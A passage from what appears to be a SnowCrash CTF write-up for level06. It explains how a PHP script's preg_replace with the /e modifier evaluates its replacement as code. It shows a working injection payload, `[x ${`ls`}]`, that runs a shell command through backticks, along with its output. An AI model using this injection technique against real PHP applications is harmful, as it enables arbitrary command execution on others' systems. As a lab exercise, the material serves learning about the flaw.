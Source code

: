 If a file contains `[x hello.world@domain]`:

1. The pattern `[x hello.world@domain]` matches
2. `hello.world@domain` is captured
3. `y("hello.world@domain")` is executed
4. The `y()` function transforms it to `hello x world y domain`
5. The result replaces the original pattern

## Exploitation Strategy

Since the replacement is evaluated as PHP code, we can inject arbitrary PHP expressions instead of just calling the `y()` function.

### Step 1: Test Basic Functionality

First, let's verify the script works normally:

```bash
level06@SnowCrash:~$ echo "hello world" > /tmp/test
level06@SnowCrash:~$ ./level06 /tmp/test
hello world
```

The script successfully reads and outputs the file content.

### Step 2: Test Template Processing

```bash
level06@SnowCrash:~$ echo "[[x test.example@domain]]" > /tmp/template
level06@SnowCrash:~$ ./level06 /tmp/template
(test x example ydomain)
```

This shows the template processing working:

- `[x test.example@domain]` was processed
- `test.example@domain` became `test x example ydomain` through `y()`
- `[` and `]` were converted to `(` and `)`

### Step 3: Code Injection Test

Now let's exploit the `/e` modifier by injecting PHP code:

```bash
level06@SnowCrash:~$ echo '[x ${`ls`}]' > /tmp/test
level06@SnowCrash:~$ ./level06 /tmp/test
PHP Notice:  Undefined variable: level06
level06.php
 in /home/user/level06/level06.php(4) : regexp code on line 1
```

#### Understanding the Injection

The payload `[x ${`ls`}]` works as follows:

1. **Pattern Match**: `[x ${`ls`}]` matches the regex
2. **Captured Content**: `${`ls`}` is captured as group 2
3. **Code Evaluation**: Instead of `y("${`ls`}")`, PHP evaluates `${`ls`}`
4. **Command Execution**: The backticks execute `ls` as a shell command
5. **Variable Interpolation**: `${...}` tries to use the command output as a variable name
